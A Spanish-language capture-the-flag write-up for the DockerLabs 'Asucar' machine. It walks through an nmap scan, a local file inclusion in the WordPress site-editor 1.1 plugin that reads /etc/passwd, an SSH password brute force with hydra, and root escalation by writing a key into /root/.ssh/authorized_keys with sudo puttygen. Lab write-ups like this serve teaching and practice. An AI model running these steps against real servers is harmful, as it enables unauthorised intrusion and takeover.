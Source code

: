 Máquina **Asucar** de [DockerLabs](https://dockerlabs.es)

Autor: [The Hackers Labs](https://thehackerslabs.com/)

Dificultad: Medio

![Asucar](images/asucar/asucar.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Fri Jan 10 16:18:28 2025 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2025-01-10 16:18:28 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 64:44:10:ff:fe:17:28:06:93:11:e4:55:ea:93:3b:65 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK2mR4ZHERhhZkS6oA/37T+5m7Kv7i6Bzxx5P62opMNRmFStGK9uXi0hybtfyK6LhU0llQjBm2Yok45ExbRDP78=
|   256 2d:aa:fb:08:58:aa:34:8d:4f:8a:71:b9:e4:b5:99:43 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDl/MgMW7LMnrd5ESXJMi5ReeYP9/NJEFB/UkyYaWUVu
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.59 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Asucar Moreno
|_http-generator: WordPress 6.5.3
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 10 16:18:43 2025 -- 1 IP address (1 host up) scanned in 15.64 seconds
```

En el escaneo ya podemos ver varias cosas:

• `Puerto 22: OpenSSH 9.2p1 Debian`

• `Puerto 80: Apache httpd 2.4.59 & WordPress 6.5.3`

viendo esto ya tenemos cosas útiles.

#### Puerto 80

Luego de intentar varias cosas en el wordpress, intento ver algún plugin que use la página y encuentro lo siguiente:

```css
curl "http://172.17.0.2" | grep plugins --color
```

```css
<link rel='stylesheet' id='general-css' href='http://asucar.dl/wp-content/plugins/site-editor/framework/assets/css/general.min.css?ver=1.1' media='all' />
```

vemos varias cosas pero lo importante es eso, ya que nos muestra un dominio y además un plugin, el cual si revisamos en: [site-editor_path](http://172.17.0.2/wp-content/plugins/site-editor/readme.txt)

veremos que es la versión 1.1, por lo que luego de buscar encuentro que esa versión del plugin permite un LFI. [Exploit-db](https://www.exploit-db.com/exploits/44340)

# Intrusión

Para lograr el LFI, debemos entrar en el siguiente path:

```css
http://172.17.0.2/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

a la cual si entramos veremos lo siguiente:

![LFI](images/asucar/lfi.png)

Ahora tenemos un usuario llamado "curiosito", al cual si le hacemos fuerza bruta con `hydra` podremos obtener su contraseña:

```css
hydra -l curiosito -P /opt/rockyou.txt 172.17.0.2 ssh
```

![Password](images/asucar/hydra.png)

por lo que para entrar lo haremos con `ssh curiosito@172.17.0.2`.

# Escalada De Privilegios

### Curiosito

Al revisar los permisos con `sudo -l`, me encuentro con lo siguiente:

```css
Matching Defaults entries for curiosito on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User curiosito may run the following commands on dockerlabs:
    (root) NOPASSWD: /usr/bin/puttygen
```

esto significa que podemos ejecutar `puttygen` como el usuario root, por lo que podriamos generar unas claves de ssh para poder conectarnos nuevamente pero como root sin necesidad de contraseña. Para lograr esto primero debemos generar la clave rsa:

```css
puttygen -t rsa -o id_rsa -O private-openssh
```

esto nos generará una clave privada rsa la cual se llama "id_rsa", ahora lo que haremos será guardarla en `/root/.ssh/authorized_keys`:

```css
sudo puttygen id_rsa -o /root/.ssh/authorized_keys -O public-openssh
```

eso guardará la clave pero la clave pública con el nombre "authorized_keys", lo que nos permitirá escalar a root ejecutando lo siguiente:

```css
chmod 600 id_rsa && ssh -i id_rsa root@127.0.0.1
```

### Root

![Root](images/asucar/root.png)

Gracias por leer ;)